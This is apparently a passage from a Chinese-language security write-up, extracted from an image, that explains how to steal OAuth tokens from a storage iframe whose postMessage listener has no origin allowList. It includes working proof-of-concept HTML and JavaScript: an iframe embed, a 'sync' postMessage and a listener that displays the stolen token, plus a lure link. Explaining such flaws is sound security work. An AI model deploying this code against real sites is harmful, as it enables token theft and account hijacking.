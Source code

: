 ```JavaScript

```



此外，如果有一个基于allowList的有效源，你还可以请求同步，这将在此窗口中向您发送对localStorage所做的任何更改。


拥有存储的网站在加载OAuth-dance的不愉快路径时，并没有定义allowList-origins;这允许任何源与postMessage-listener通信，如果源是窗口的父源。方法与Gadget2类似 :


我创建了一个恶意页面，它嵌入了存储容器的iframe，并附加了一个onload，以便在加载iframe时触发脚本。



代码如下:
```html
<div id="leak"><iframe
id="i" name="i"
src="https://cdn.customer12345.analytics.example.com/storage.html"
onload="run()"></iframe></div>
```
由于恶意页面现在是iframe的父页面，并且在allowList中没有定义任何起源，因此恶意页面可以向iframe发送消息，告诉存储发送对存储的任何更新的消息。我还可以添加一个监听器到恶意页面，以监听任何来自存储的同步更新:


```JavaSCript
<script>
function run() {
  i.postMessage({type:'sync'}, '*')
}
window.addEventListener('message', function (e) {
 if (e.data && e.data.type === 'sync') {
     document.getElementById('leak').innerText = 'We stole the token: ' + JSON.stringify(e.data);
 }
});
</script>
```
该恶意网页还会包含一个普通链接，供受害者点击:

```html
<a href=" "
target="_blank">Click here to hijack token</a >';

```

受害者会点击链接，通过OAuth-dance，最终在加载跟踪脚本和存储框架的不愉快路径上结束。
存储iframe获得last-url的更新。因为更新了`localStorage`，所以`window.storage-event`会在恶意页面的iframe中触发，现在每当存储发生变化时，恶意页面就会得到一个带有受害者当前URL的postMessage:


![img_9.png](img_9.png)


